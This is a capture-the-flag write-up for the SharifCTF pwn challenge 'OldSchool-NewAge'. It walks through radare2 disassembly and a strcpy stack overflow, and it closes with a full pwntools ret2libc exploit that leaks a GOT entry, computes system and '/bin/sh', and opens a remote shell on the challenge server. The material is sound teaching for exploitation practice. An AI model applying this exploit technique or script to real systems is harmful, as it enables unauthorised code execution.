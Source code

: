 # OldSchool-NewAge

- **Category :** pwn
- **Points :** 75
- **Challenge Description :**
```
It all started with a leak bang
```

## Writeup

We are provided with a tar archive that contains two files: an executable and
a shared object of a libc. Let's first run file on them :

```bash
$ file vuln4 libc.so.6
vuln4:     ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked
libc.so.6: ELF 32-bit LSB shared object, Intel 80386, version 1 (GNU/Linux), dynamically linked
```

We can start assuming that this challenge will have to do with leaking stuff
from libc (thanks to the presence of the library and the hint in the challenge
description).
Let's first take a look at the main function of the program with r2 :

```
   sym.main ();
│           ; var int local_3ah @ ebp-0x3a
│           ; var int local_4h @ ebp-0x4
│           ; var int local_4h_2 @ esp+0x4
│           0x080484ea      8d4c2404       lea ecx, esp + 4            ; 4
│           0x080484ee      83e4f0         and esp, 0xfffffff0
│           0x080484f1      ff71fc         push dword [ecx - 4]
│           0x080484f4      55             push ebp
│           0x080484f5      89e5           mov ebp, esp
│           0x080484f7      51             push ecx
│           0x080484f8      83ec44         sub esp, 0x44               ; 'D'
│           0x080484fb      83ec0c         sub esp, 0xc
│           0x080484fe      6800860408     push str.This_time_it_is_randomized... ; 0x8048600 ; "This time it is randomized..."
│           0x08048503      e898feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x08048508      83c410         add esp, 0x10
│           0x0804850b      83ec0c         sub esp, 0xc
│           0x0804850e      681e860408     push str.You_should_find_puts_yourself ; 0x804861e ; "You should find puts yourself"
│           0x08048513      e888feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x08048518      83c410         add esp, 0x10
│           0x0804851b      a1a4980408     mov eax, dword [obj.stdout] ; [0x80498a4:4]=0
│           0x08048520      83ec0c         sub esp, 0xc
│           0x08048523      50             push eax
│           0x08048524      e847feffff     call sym.imp.fflush         ; int fflush(FILE *stream)
│           0x08048529      83c410         add esp, 0x10
│           0x0804852c      a1a0980408     mov eax, dword [obj.stdin]  ; [0x80498a0:4]=0
│           0x08048531      83ec04         sub esp, 4
│           0x08048534      50             push eax
│           0x08048535      68c8000000     push 0xc8                   ; 200
│           0x0804853a      8d45c6         lea eax, ebp - 0x3a
│           0x0804853d      50             push eax
│           0x0804853e      e83dfeffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
│           0x08048543      83c410         add esp, 0x10
│           0x08048546      83ec0c         sub esp, 0xc
│           0x08048549      8d45c6         lea eax, ebp - 0x3a
│           0x0804854c      50             push eax
│           0x0804854d      e879ffffff     call sym.copy_it
│           0x08048552      83c410         add esp, 0x10
│           0x08048555      83ec0c         sub esp, 0xc
│           0x08048558      683c860408     push str.done               ; 0x804863c ; "done!"
│           0x0804855d      e83efeffff     call sym.imp.puts           ; int puts(const char *s)
│           0x08048562      83c410         add esp, 0x10
│           0x08048565      b800000000     mov eax, 0
│           0x0804856a      8b4dfc         mov ecx, dword [local_4h]
│           0x0804856d      c9             leave
│           0x0804856e      8d61fc         lea esp, ecx - 4
└           0x08048571      c3             ret
```

So we have a call to `fgets` to read 0xc8 characters into a stack-allocated
buffer, which is then copied to another buffer using the `copy_it` function.
Let's have a look at it:

```
│   sym.copy_it ();
│           ; var int local_12h @ ebp-0x12
│              ; CALL XREF from 0x0804854d (sym.main)
│           0x080484cb      55             push ebp
│           0x080484cc      89e5           mov ebp, esp
│           0x080484ce      83ec18         sub esp, 0x18
│           0x080484d1      83ec08         sub esp, 8
│           0x080484d4      ff7508         push dword [ebp + 8]
│           0x080484d7      8d45ee         lea eax, ebp - 0x12
│           0x080484da      50             push eax
│           0x080484db      e8b0feffff     call sym.imp.strcpy         ; char *strcpy(char *dest, const char *src)
│           0x080484e0      83c410         add esp, 0x10
│           0x080484e3      b800000000     mov eax, 0
│           0x080484e8      c9             leave
└           0x080484e9      c3             ret
```

`copy_it` uses `strcpy`, which means that it doesn't take into account the
length of the string during the copy; since we are calling it with pointers to
stack-allocated buffers things are going to get nasty.
If we try to input a large number of chars, we get a segmentation fault and
the control of EIP. We need to build a strategy to exploit this.

What we know:
- ASLR is enabled;
- the NX bit is enabled;
- the calling convention puts the arguments on the stack;
- only a few libc functions are available to us: `fflush`, `fgets`, `strcpy`,
and `puts`).

## Strategy
Since the arguments are on the stack, we can build our own fake stack frames to
call functions. Considering the available functions, we can see that we can use
`puts`, which will allow us to read arbitrary memory locations; and this is
where the leaking part of this challenge lies: we can leak the addresses of
libc functions by reading from the **GOT** with `puts`, and build on that.
We can outline the following strategy :

1. call `puts(address of fgets)` and leak the address of `fgets`;
2. compute the base address of the libc (*leaked fgets* - *fgets in libc*);
3. compute the address of the `system` function;
4. compute the address of **"/bin/sh"** in the libc;
5. return to `_start`;
6. call `system("/bin/sh")`;
7. ???
8. Profit!

Note : returning to `_start` allows us to reset the stack to an uncorrupted
state, and to exploit the program again without actually crashing it (and
re-randomizing the addresses again).

Then, we just have to navigate to the `ctfuser` home directory and read the
flag!
```
$ cat /home/ctfuser/flag
SharifCTF{7af9dab81dff481772609b97492d6899}
```

## Exploit script

```python
from pwn import *

overflow_offset = 22

puts_bin_addr = 0x80483a0
fgets_got = 0x804986c

main_addr = 0x80484ea
_start_addr = 0x80483d0

fgets_libc_addr = 0x0005e150 # 0x00065c50 locally
bin_sh_libc_addr = 0x0015ba0b # 0x0017882a locally
system_libc_addr = 0x0003ada0 # 0x0003c7d0 locally

# Goal : Leak puts addr and call system
# step 1 : Leak fgets
# - Build a false stack frame
# - Call puts with delta GOT offset as argument
# - Read addr and compute delta

p = remote("ctf.sharif.edu",4801)
p.recv(4096)

stage1 = "A"*overflow_offset
stage1 += p32(puts_bin_addr)
stage1 += p32(_start_addr) # return address
stage1 += p32(fgets_got)

log.info("Leaking fgets got ...")
p.sendline(stage1)

leak = p.recv(4096)

fgets_got_entry = u32(leak[0:4])

log.info("fgets got address : {}".format(hex(fgets_got_entry)))

libc_base_addr = fgets_got_entry - fgets_libc_addr

bin_sh_addr = libc_base_addr + bin_sh_libc_addr
system_addr = libc_base_addr + system_libc_addr

log.info("libc base addr is : {}".format(hex(libc_base_addr)))
log.info("/bin/sh string addr is : {}".format(hex(bin_sh_addr)))
log.info("system addr is : {}".format(hex(system_addr)))


# step 2 : exploit
# - Call main again
# - Call system("/bin/sh")
# - Profit !

log.info("Getting remote shell ...")
stage2 = "A"*overflow_offset
stage2 += p32(system_addr)
stage2 += p32(_start_addr)
stage2 += p32(bin_sh_addr)

p.sendline(stage2)

# Remote shell
p.interactive()
```
